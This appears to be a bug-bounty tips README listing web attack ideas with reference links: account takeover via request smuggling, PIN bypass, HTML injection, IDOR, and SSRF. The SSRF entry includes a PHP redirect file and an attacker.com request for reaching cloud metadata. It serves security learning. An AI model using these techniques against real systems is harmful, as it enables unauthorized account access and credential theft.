 ## 100 Day Learning Challange

### Accont Takeover Via Request Smuggling

If you Found an `HTTP request Smuggling Bug` You can chain it with an  `Open Redirect` to Perform the `Accoun Takeover`

__Refrence__:

[https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

---

### Bypassing PIN Varification VIA removing a file

If Pin is saved in file.txt sometimes removing file.txt will bypass the pin verfication

__Refrence__

[https://medium.com/sourav-sahana/bypass-mobile-pin-verification-d2c571afa3aa](https://medium.com/sourav-sahana/bypass-mobile-pin-verification-d2c571afa3aa)

---

### HTML Injection VIA  Email

Sometimes if any user input data is send to email ! Try it for HTML injection.

---


### IDOR Tip

Always try to Bruteforce all HTTP methods on API Endpoints It can lead to some devastating results.

---

#### External SSRF Bypass with Open Redirection

The External SSRF can be easily used to get cloud Metadata through Redirection Technique

Example:

if `Target.com/vul.php?url=amazon.com/matadata` is blocked

make an `redirect.php` on you server
```php
<?php
header("Location: amazon.com/matadata");
?>
```

then try `Target.com/vul.php?url=attacker.com/redirect.php` 

__Refrence__

[https://medium.com/@dPhoeniixx/vimeo-upload-function-ssrf-7466d8630437](https://medium.com/@dPhoeniixx/vimeo-upload-function-ssrf-7466d8630437)

---

### SSRF via Video Files

If you ever came across a webapp which allows your to edit videos anyhow on server side. You can try to do ssrf.

__Refrence__
[https://medium.com/@pflash0x0punk/ssrf-via-ffmpeg-hls-processing-a04e0288a8c5](https://medium.com/@pflash0x0punk/ssrf-via-ffmpeg-hls-processing-a04e0288a8c5)

